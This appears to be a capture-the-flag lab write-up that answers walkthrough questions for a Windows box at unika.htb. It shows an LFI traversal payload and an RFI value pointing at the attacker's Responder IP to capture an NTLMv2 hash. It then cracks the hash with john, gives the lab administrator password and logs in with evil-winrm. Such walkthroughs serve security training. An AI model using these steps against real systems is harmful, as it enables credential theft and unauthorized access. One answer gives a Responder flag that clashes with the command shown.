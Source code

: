 # Questions

## When visiting the web service using the IP address, what is the domain that we are being redirected to?
- _unika.htb_

## Which scripting language is being used on the server to generate webpages?
- php

## What is the name of the URL parameter which is used to load different language versions of the webpage?
- click on "EN" and select a language to see

## Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
- _../../../../../../../../windows/system32/drivers/etc/hosts_

## Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
- _//10.10.14.6/somefile_

## What does NTLM stand for?
- New Technology LAN Manager

## Which flag do we use in the Responder utility to specify the network interface?
- `-i`

## There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.
- find LFI in `page` param
    - `page=../../../../../../../../windows/system32/drivers/etc/hosts`
- capture NTLM hash of our adm using Responder
    - `sudo responder -I tun0`
```
[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.16.4]
    Responder IPv6             [dead:beef:4::1002]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']
```
- send this request with `responder` active 
    - `page=//10.10.16.4/somefile`
- get the hash and crack with john
    - `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
    - badminton
- tool name: `john the ripper`

## What is the password for the administrator user?
- badminton

## We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?
- `sudo nmap $IP -p- -T4 -sC -sV -Pn`
- 5985

## Submit root flag
- `evil-winrm -u administrator -p badminton -i unika.htb`
- `*Evil-WinRM* PS C:\Users\mike\Desktop> type flag.txt`
